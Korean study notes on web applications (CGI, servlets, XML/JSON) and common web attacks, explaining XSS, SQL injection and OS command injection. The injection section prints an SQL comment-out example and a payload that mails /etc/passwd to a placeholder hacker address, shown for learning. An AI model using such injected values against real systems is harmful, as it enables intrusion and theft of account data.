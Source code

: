 ### 웹 애플리케이션

- CGI: Common Gatewaty Interface로 웹 서버가 클라이언트로 부터 받은 요청을 프로그램에 전달하기 위한 구조이다. CGI에 의해 프로그램은 요청 내용에 맞게 HTML을 생성하는 등 "동적 컨텐츠"를 생성할 수 있다. 동적 컨텐츠란 리퀘스트에 따라 알맞은 페이지를 그때 생성해서 반환하는 것을 의미한다.
- JAVA 서블릿: 서블릿은 서버상에 HTML 동적 컨텐츠를 생성하기 위한 프로그램을 가리킨다. CGI는 매 요청이 들어올 때마다 해당 프로세스를 실행시켜 웹 서버에 부하가 걸리게 된다. 하지만 서블릿은 웹 서버와 같은 프로세스 내에서 동작하기 때문에 비교적 부하를 적게하여 동작시킬 수 있다. 이런 서블릿 환경을 **컨테이너** 혹은 **서블릿 컨테이너**라고 부른다. 이는 CGI를 해결하기 위해 등장했다.

### XML, JSON, RSS/Atom

- XML: XML은 마크업 언어로 데이터를 기술하는 것에 특화되어있다. HTML처럼 태그를 사용한 트리구조이고, 독자적으로 확장된 태그가 있다. 데이터를 재사용하기 쉽다는 점에서 XML은 인터넷에서 널리 이용되고 있다. 데이터 교환 포맷으로 많이 쓰인다.
- RSS/Atom: 둘 다 XML을 사용하며, 뉴스, 블로그 등의 갱신 정보를 송신하기 위한 문서 포맷의 총칭이다.
- JSON: 경량 데이터 기술 언어로, Javascript에 있어서 객체 표기법을 바탕으로 하고 있다. RFC4627에 기술되어있다. 데이터 교환 포맷으로 정말 많이 쓰인다.

## 웹 공격 기술

> 역시 가장 문제가 되는 부분은 보안이다. 뚫는 법을 알아야 막는 법에 대해 고민할 수 있는 개발자가 되는 것 같다. 알아보자.

HTTP는 보안 기능이 없다 → 그러나 직접 공격을 당하는 대상이 아니라 문제가 없다 → 문제가 발생하는 쪽은 정보를 갖고 있는 클라이언트와 서버이다.

최근 대부분의 공격들은 웹사이트를 노린 공격이다. 공격 패턴은 크게 능동적과 수동적으로 구분된다.

- 능동적: 공격자가 직접 접근해서 공격 코드를 보내는 타입의 공격으로 SQL 인젝션, OS 커맨드 인젝션 등이 있다.
- 수동적: 함정을 이용해서 유저가 공격 코드를 실행시키게 하는 방법이다. 예를 들어 XSS, CSRF등이 있다.

### 출력 값의 이스케이프 미비로 인한 취약성

웹 애플리케이션의 보안 대책을 실시하는 장소는 크게 클라이언트와 서버측으로 나눌 수 있다. 클라이언트측에서 보안을 해봤자 중간에 변조, 무효화될 확률이 높기 때문에 입력 실수 정도를 바로 지적해주는 정도로 사용한다.

반면 서버측은 입력값, 출력값을 신경 써야 하는데, 특히 출력값이 중요하다. 웹 앱에서 처리한 데이터를 DB나 파일시스템, HTML, 메일 등에 출력하는 곳에 따라 값을 이스케이프 처리 하는 출력값의 이스케이프가 보안 대책으로 중요하다.

**XSS(Cross Site Scripting)**

- 크로스 사이트 스크립팅은 부정한 HTML태그나 Javascript를 동작시키는 공격이다.
- 예를 들어, 가짜 입력 폼에 유저가 정보를 입력해서 개인 정보를 도둑맞거나, 스크립트에 의해 쿠키값이 도둑맞는 등.
- XSS는 수동적 공격이다. 보안이 취약한 부분에 스크립트를 끼워 넣어 유저가 실행시키도록 함정을 파는 것이다.

**SQL 인젝션**

- SQL 인젝션은 데이터베이스에 부정한 SQL을 실행하여 공격하는 방식이다.
- 예를 들어 `SELECT * FROM table WHERE email="~~" and flag = 1;` 이라는 쿼리가 있다고 해보자. 그런데 여기서 `SELECT * FROM table WHERE email="~~" —" and flag = 1;` 로 살짝 수정을 해서 쿼리를 날리면 — 뒷 부분은 주석 처리가 되어 flag를 통한 권한 처리등 여러 필터가 날라가게 되는 수 있다.
- 즉, 특정 DB에 대한 액세스를 항상 참으로 만들어서 모든 결과를 탈취하는 등 SQL 문장 구문을 파괴하는 공격이다.

**OS 커맨드 인젝션**

- SQL 인젝션과 유사하게 OS 커맨드 인젝션은 OS 명령을 부정하게 실행하는 공격이다. 쉘을 호출하는 함수가 있는 곳에서 발생할 가능성이 있다.
- 예를 들어 특정 프로그램을 실행 시키면 메일을 보낸다고 해보자. 여기서 OS 커맨드 뒤에 `; cat /etc/passwd | mail 해커메일@도메인` 과 같이 인젝션을 한다면, 리눅스 계정 정보가 포함된 파일 자체를 메일로 보내버리는 불상사가 발생할 수 있다.

**HTTP 헤더 인젝션 & HTTP 리스폰스 분할 공격**
